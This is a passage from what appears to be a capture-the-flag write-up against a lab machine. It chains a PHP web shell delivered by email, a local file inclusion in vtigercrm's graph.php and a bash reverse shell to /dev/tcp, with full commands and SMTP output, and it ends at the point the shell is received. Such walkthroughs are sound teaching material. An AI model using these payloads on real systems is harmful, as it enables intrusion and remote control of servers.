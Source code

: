 ```shell
❯ swaks --to asterisk@localhost --from wixnic@helo.htb --header "Subject: Shell" --body 'PHP code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
=== Trying 10.10.10.7:25...
=== Connected to 10.10.10.7.
<-  220 beep.localdomain ESMTP Postfix
 -> EHLO kali
<-  250-beep.localdomain
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250 DSN
 -> MAIL FROM:<wixnic@helo.htb>
<-  250 2.1.0 Ok
 -> RCPT TO:<asterisk@localhost>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Wed, 22 Dec 2021 19:07:02 -0500
 -> To: asterisk@localhost
 -> From: wixnic@helo.htb
 -> Subject: Shell
 -> Message-Id: <20211222190702.277580@kali>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 ->
 -> PHP code: <?php system($_REQUEST["cmd"]); ?>
 ->
 ->
 -> .
<-  250 2.0.0 Ok: queued as D7063D92FD
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.
```

Now we can read that file with the LFI at and add `&cmd=id` at the end of the URL, to execute system commands:

```shell
curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&cmd=id"
```

Instead of `id` add a reverse shell, I'm also gonna encode the data, in this case the reverse shell code:

```shell
❯ curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action" --data-urlencode "cmd=bash -i >& /dev/tcp/10.10.16.3/443 0>&1"
```

Now we receive a shell:
